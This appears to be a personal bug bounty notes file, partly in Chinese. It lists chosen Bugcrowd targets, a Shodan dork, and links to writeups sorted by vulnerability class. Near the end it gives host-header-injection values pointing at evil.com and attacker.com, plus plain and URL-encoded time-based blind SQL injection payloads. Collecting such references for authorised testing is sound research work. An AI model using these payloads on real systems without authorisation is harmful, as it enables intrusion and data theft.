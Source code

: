 ```
https://bugcrowd.com/programs/teasers/spring-snow-7841
https://bugcrowd.com/programs/teasers/auGYMAudW3xRzkUm5mhBA9nh


第一次选择
https://bugcrowd.com/dream11
https://bugcrowd.com/betterhelp
https://bugcrowd.com/sorare
https://bugcrowd.com/docusignog1
https://bugcrowd.com/diia-og
https://bugcrowd.com/thetradedesk-mbb
https://bugcrowd.com/kiteworks
https://bugcrowd.com/moonpay-og
https://bugcrowd.com/geotab
https://bugcrowd.com/barracudanetworks

第二次选择
https://bugcrowd.com/sorare
https://bugcrowd.com/dream11
https://bugcrowd.com/betterhelp





貌似有点意思
https://bugcrowd.com/cpoms#credentials
https://bugcrowd.com/diia-og
https://bugcrowd.com/moonpay-og
https://bugcrowd.com/thetradedesk-mbb
https://bugcrowd.com/geotab  此应用程序具有 200 多个功能

https://bugcrowd.com/kiteworks



适合自动化
https://bugcrowd.com/walmart 
https://bugcrowd.com/hulu
```





```
http://www.firstsight.me/2020/11/optimizing-hunting-results-in-vdp-for-use-in-bug-bounty-programs-from-sensitive-information-disclosure-to-accessing-hidden-apis-which-can-be-used-to-retrieve-customer-data/
https://hackerone.com/reports/921780
https://hackerone.com/reports/1087382
https://hackerone.com/reports/1257428
https://hackerone.com/reports/1342088
```

Dork: ssl.cert.subject.CN:"*.unilever.com"+200

```
https://wearetradecraft.com/advisories/
https://gosecure.github.io/xxe-workshop/#8
https://gh0st.cn/archives/2020-01-08/2
https://labs.detectify.com/2021/09/30/10-types-web-vulnerabilities-often-missed/?utm_content=181672862&utm_medium=social&utm_source=twitter&hss_channel=tw-404136883
```

```
https://www.youtube.com/watch?v=zTkv_9ChVPY
```

```
https://bugcrowd.com/rootbakar
https://blogs.opera.com/security/2021/09/bug-bounty-guest-post-local-file-read-via-stored-xss-in-the-opera-browser/
https://medium.com/@osamaavvan/1800-worth-clickjacking-1f92e79d0414
https://bugcrowd.com/R29k
https://systemweakness.com/simple-2-fa-bugs-and-logic-flaws-that-you-can-look-for-as-a-beginner-ca333933f259
```

```
https://securib.ee/beelog/the-best-bug-bounty-recon-methodology/
https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html
https://supras.io/how-i-got-access-to-many-piis-through-a-source-code-leak/
https://johnjhacking.com/blog/the-ultimate-guide-to-crashing-your-friend-s-wedding-the-knot-business-logic-flaw/
https://u-itachi.medium.com/from-phpinfo-page-to-many-p1-bugs-and-rce-symfony-bce432605662
https://www.hackingarticles.in/ctf-challenges-walkthrough/
https://medium.com/cyberverse/got-bounty-with-account-takeover-ato-unicode-case-mapping-collision-d23a7785e1be
https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/
https://hector0x.medium.com/from-url-dumps-digging-to-idor-bac-massive-phishing-in-udemy-6fa7f94ef256
https://www.bugcrowd.com/blog/the-ultimate-guide-to-finding-and-escalating-xss-bugs/
https://medium.com/@discodamone/a-different-way-to-attack-certain-reverse-proxies-9cd2303e95fe
https://snapsec.co/blog/2021/09/25/Attacking-Access-Control-Models-In-Modern-Web-Applications.html
https://blog.mert.ninja/idor/
https://mike-n1.github.io/SSRF_P4toP2
https://application.security/free/owasp-top-10
https://blog.deteact.com/account-takeover-via-idor/
https://hackerone.com/reports/637267
https://hackerone.com/reports/970157
https://hackerone.com/reports/17474
https://medium.com/@bathinivijaysimhareddy/tale-of-account-takeovers-part-1-b24e1f3c3187
https://blog.usamav.dev/two-account-takeover-bugs-worth-4300-dollar-bounty
https://hackerone.com/reports/1356845
一个沙雕
https://hackerone.com/jaka_tingkir?type=user
有很多dos的报告
https://hackerone.com/cs_money/hacktivity?type=team
```

# Bug Bounty Reference

### sqli
- [My Bug Bounty Journey and My First Critical Bug — Time Based Blind SQL Injection](https://marxchryz.medium.com/my-bug-bounty-journey-and-my-first-critical-bug-time-based-blind-sql-injection-aa91d8276e41)

### 反射XSS
- [reflected xss in e.mail.ru](https://hackerone.com/reports/1379297) by burp 插件技巧

### SSRF 
- [cloud_metadata.txt](https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb)
- [Cloud Metadata Dictionary useful for SSRF Testing](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b)
- [视频](https://www.youtube.com/watch?v=UyemBjyQ4qA)
- [rce-in-cloud-dm.html 有视频](https://www.ezequiel.tech/2020/05/rce-in-cloud-dm.html)
- [入门](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
- [入门](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
- [SSRF in api.slack.com, using slash commands and bypassing the protections.](https://hackerone.com/reports/381129)
- [Vimeo SSRF with code execution potential.](https://infosecwriteups.com/vimeo-ssrf-with-code-execution-potential-68c774ba7c1e)
- [Exploiting SSRF like a Boss — Escalation of an SSRF to Local File Read!](https://medium.com/@zain.sabahat/exploiting-ssrf-like-a-boss-c090dc63d326)
- [From SSRF To RCE in PDFReacter](https://medium.com/@armaanpathan/pdfreacter-ssrf-to-root-level-local-file-read-which-led-to-rce-eb460ffb3129)
- [Chain of hacks leading to Database Compromise!](https://logicbomb.medium.com/chain-of-hacks-leading-to-database-compromise-b2bc2b883915)
- [Bypass of the SSRF protection in Event Subscriptions parameter.](https://hackerone.com/reports/386292)
- [$1.000 SSRF in Slack](https://elbs.medium.com/1-000-ssrf-in-slack-7737935d3884) by Elber Andre
- [SSRF’s up! Real World Server-Side Request Forgery](https://www.shorebreaksecurity.com/blog/ssrfs-up-real-world-server-side-request-forgery-ssrf/)
- [Exploiting SSRF in AWS Elastic Beanstalk](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk) by notsosecure
- [Stored XSS, and SSRF in Google using the Dataset Publishing Language](https://s1gnalcha0s.github.io/dspl/2018/03/07/Stored-XSS-and-SSRF-Google.html) by Craig Arendt
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) by 0xacb
- [Escalating SSRF to RCE](https://generaleg0x01.com/2019/03/10/escalating-ssrf-to-rce/)
- [Unauthenticated blind SSRF in OAuth Jira authorization controller](https://hackerone.com/reports/398799)
- [From SSRF to Port Scanner](https://cobalt.io/blog/from-ssrf-to-port-scanner)
- [SSRF vulnerability via FFmpeg HLS processing](https://krevetk0.medium.com/ssrf-vulnerability-via-ffmpeg-hls-processing-f3823c16f3c7)
- [Blind SSRF/XSPA on dashboard.lob.com + blind code injection](https://hackerone.com/reports/517461)
- [Old but GOLD Dot Dot Slash to Get the Flag — Uber Microservice](https://ngailong.wordpress.com/2019/04/07/old-but-gold-dot-dot-slash-to-get-the-flag-uber-microservice/)

### Direct Object Reference (IDOR)
- [IDOR for X-Pid header allowed user with observer role to elevate privileges for SQS service of MCS (sqs.mcs.mail.ru) by using role from the different project.](https://hackerone.com/reports/1177451) by mrd0x1

### Unrestricted File Upload
- [Shell upload in http://widget.support.my.com/](https://hackerone.com/reports/317043) by danila
- [Unrestricted file upload on [ambassador.mail.ru]](https://hackerone.com/reports/854032) by organdonor

### Authentication Bypass
- [Improper Authentication - any user can login as other user with otp/logout & otp/login](https://hackerone.com/reports/921780) by korniltsev
- [Change any Uber user's password through /rt/users/passwordless-signup - Account Takeover (critical)](https://hackerone.com/reports/143717) by mongo
- [Account Takeover at worki.ru](https://hackerone.com/reports/725707) by r0hack
- [Forgot Password Page SMS Brute Force could lead to Account Takeover using Android/IOS app "About the house" via api.prodom.smart.space](https://hackerone.com/reports/944392) by jayesh25
- [Account takeover through password reset in cups.mail.ru](https://hackerone.com/reports/843160) by weev3kyaw
- [Lack of rate limitation on careers site allows the attacker to brute force the verification code](https://hackerone.com/reports/1075827) by iambouali
- [Full account takeover of any user through reset password](https://hackerone.com/reports/1175081) by saajanbhujel
- [Password reset link injection allows redirect to malicious URL](https://hackerone.com/reports/281575) by cablej 
- [Password Reset - query param overrides postdata](https://hackerone.com/reports/96636) by reecer

### Business Logic Flaw
- [Modify in-flight data to payment provider Smart2Pay](https://hackerone.com/reports/1295844) by drbrix
```
Amount=2000&CustomerEmail=brixamount100abc%40███████&Hash=███
Amount2=000&CustomerEmail=brix&amount=100&ab=c%40██████████&Hash=█████████
```

### Miscellaneous
- [Bypass Rate Limits on app.snapchat.com API Endpoint via X-Forwarded-For Header](https://hackerone.com/reports/727487) by sicarius
- [Client IP Spoofing using "X-Forwarded-For: 127.0.0.1" on "studio-app.snapchat.com" exposing bucket details](https://hackerone.com/reports/382678) by damian89
- [Error Page Content Spoofing or Text Injection](https://hackerone.com/reports/1245051) by princej_76
- [Password reset link not expiring after changing password in settings](https://hackerone.com/reports/1288898) by blackbibin


### recon win 
- [API on campus-vtc.com allows access to ~100 Uber users full names, email addresses and telephone numbers.](https://hackerone.com/reports/580268) by healdb
- [Administrator access to a Django Administration Panel on *.sc-corp.net via bruteforced credentials](https://hackerone.com/reports/128114) by shubs


host-header-injection
```
Host: example.com?.mavenlink.com
X-Forwarded-Host: evil.com
Referrer: https://evil.com
localhost.attacker.com or localhostattacker.com
Host: redacted.com?anythin<b>imran</b> or Host: redacted.com?"><a href='evil.com
```

SQL INJECT
```
'and(select*from(select+sleep(30))a/**/union/**/select+1)='
%27and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
'XOR(if(now()=sysdate(),sleep(30),0))OR'
%27XOR(if(now()%3dsysdate(),sleep(30),0))OR%27
"and(select*from(select+sleep(30))a/**/union/**/select+1)="
%22and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%22
"XOR(if(now()=sysdate(),sleep(30),0))OR"
%22XOR(if(now()%3dsysdate(),sleep(30),0))OR%22
```

安卓抓包
```
https://secabit.medium.com/how-to-configure-burp-proxy-with-an-android-emulator-31b483237053
https://www.nevermoe.com/2021/08/20/%E5%A6%82%E4%BD%95%E5%B0%86avd-android-emulator%E7%9A%84%E9%80%9A%E4%BF%A1%E8%BD%AC%E5%8F%91%E5%88%B0burp%E4%B8%8A/
https://docs.google.com/document/d/1EIMxZ2_FD47aEYeG2JkOiRnIe8hBY_k0cuYgcjJeUV8/edit
https://securitychops.com/2019/08/31/dev/random/one-liner-to-install-burp-cacert-into-android.html
```

